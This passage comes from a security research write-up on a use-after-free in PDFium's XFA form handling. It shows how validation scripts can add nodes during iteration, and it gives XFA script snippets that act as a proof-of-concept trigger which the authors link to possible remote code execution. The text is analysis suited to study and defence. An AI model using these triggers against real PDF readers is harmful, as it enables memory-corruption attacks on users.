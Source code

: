 This leads to UaF and thus potential RCE.

# Confirming the Vulnerability
We have just based the above theory on an assumption. Although the assumption is very well justified, as there is almost no other possible way for `m_ValidateNodes` to have been changed, we still need to confirm that `ProcessValidate()` does add nodes before we move forward. PDFium is part of Chromium, which runs on the Chromium V8 Engine, which always has wrappers upon wrappers, so we had to unravel the function.

`ProcessValidate()` is run on the `CXFA_Node` class, so a quick look at `CXFA_Node.h` reveals that there is indeed a prototype function for `ProcessValidate()` in there that accepts a param `CXFA_FFDocView* docView`, which is the object we want to look at. A quick look at `ProcessValidate()` reveals many functions that are being called, but to narrow down on the correct function we only looked for functions called on `docView`, and there were only 2 instances of this happening:
```cpp
bool bStatus = docView->GetLayoutStatus() < XFA_DOCVIEW_LAYOUTSTATUS_End;
```

and
```cpp
if (script) {
  CXFA_EventParam eParam;
  eParam.m_eType = XFA_EVENT_Validate;
  eParam.m_pTarget = this;
  std::tie(iRet, bRet) = ExecuteBoolScript(docView, script, &amp;eParam);
}
```

We know `GetLayoutStatus()` could not have added or removed nodes as it only returns a flag to compare against `XFA_DOCVIEW_LAYOUTSTATUS_End`. So the answer should lie within `ExecuteBoolScript(docView, script, &Param)`. We take a look at `ExecuteBoolScript()`, and we realized that what `ExecuteBoolScript()` does was to run any validation script attached to the node and return a Boolean on whether the node is valid or not valid.

# Attempting an Exploit
This is where the fun part comes in, with just this knowledge, it was already sort of possible to build an exploit. Because we know that the vector `m_ValidateNodes` was not initialized with a starting capacity (from the header file), we can first assume the use of C++&#39;s default vector capacity allocation: 0, 1, 2, 4, 8, 16…
```cpp
<event activity="docReady" ref="$host">
  <script contentType="application/x-javascript">
    xfa.host.setFocus("my_doc.combox_0.combox");
    var val=xfa.resolveNode("my_doc.combox_0.combox");
    val.rawValue="1";
	xfa.host.setFocus("my_doc.combox_1.combox");
	xfa.host.openList("my_doc.combox_0.combox");
  </script>
</event>
```

This puts 1 node into `m_ValidateNodes` at the start, and calling openList will call `RunValidate()`, with the following validate script on `combox_0`:
```cpp
<validate>
  <script contentType="application/x-javascript">
    xfa.host.setFocus("my_doc.combox_1.combox");
	var val=xfa.resolveNode("my_doc.combox_1.combox");
	val.rawValue="1";
	xfa.host.setFocus("my_doc.combox_0.combox");
  </script>
</validate>
```
